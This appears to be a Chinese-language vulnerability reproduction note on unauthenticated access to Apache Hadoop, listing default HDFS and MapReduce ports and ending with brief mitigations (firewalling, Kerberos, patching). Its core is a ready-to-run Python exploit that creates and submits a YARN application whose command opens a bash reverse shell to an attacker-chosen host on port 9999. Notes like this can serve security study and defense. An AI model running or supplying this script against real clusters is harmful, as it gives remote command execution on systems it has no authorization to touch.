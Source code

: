 Hadoop未授权访问
================

一、漏洞简介
------------

> Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的 MapReduce
> 算法进行分布式处理。这个框架被Adobe，Last
> fm，EBay，Yahoo等知名公司使用着。它极大地精简化程序员进行分布式计算时所需的操作，用户大概通过如下步骤在hadoop中实现分布式处理：

-   用户创建一个处理键值的map函数

-   产生了一套中间键/值

-   reduce函数合并中间值并把他们关联到对应的键

二、影响范围
------------

三、复现过程
------------

#### 1. 扫描探测

##### 1.1 常见端口

![](./resource/Hadoop未授权访问/media/rId26.png)

##### 1.2 敏感端口

  模块        节点                     默认端口
  ----------- ------------------------ ----------
  HDFS        NameNode                 50070
  HDFS        SecondNameNode           50090
  HDFS        DataNode                 50075
  HDFS        Backup/Checkpoint node   50105
  MapReduce   JobTracker               50030
  MapReduce   TaskTracker              50060

通过访问 NameNode WebUI 管理界面的 50070
端口，可以下载任意文件。而且，如果 DataNode 的默认端口 50075
开放，攻击者可以通过 HDSF 提供的 restful API 对 HDFS
存储的数据进行操作。

![](./resource/Hadoop未授权访问/media/rId28.png)

#### 2. 攻击手法

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST
API 也可以提交任务执行。

利用过程如下：

-   在本地监听等待反弹 shell 连接

-   调用 New Application API 创建 Application

-   调用 Submit Application API 提交

**P牛的攻击脚本**

    ##!/usr/bin/env python

    import requests

    target = 'http://127.0.0.1:8088/'
    lhost = '192.168.0.1' ## put your local host ip here, and listen at port 9999

    url = target + 'ws/v1/cluster/apps/new-application'
    resp = requests.post(url)
    app_id = resp.json()['application-id']
    url = target + 'ws/v1/cluster/apps'
    data = {
        'application-id': app_id,
        'application-name': 'get-shell',
        'am-container-spec': {
            'commands': {
                'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
            },
        },
        'application-type': 'YARN',
    }
    requests.post(url, json=data)

![](./resource/Hadoop未授权访问/media/rId30.png)

#### 3. 防范措施

网络访问控制 使用 安全组防火墙 或本地操作系统防火墙对访问源 IP
进行控制。如果您的 Hadoop 环境仅对内网服务器提供服务，建议不要将 Hadoop
服务所有端口发布到互联网。

启用认证功能 启用 Kerberos 认证功能。

更新补丁 不定期关注 Hadoop 官方发布的最新版本，并及时更新补丁。
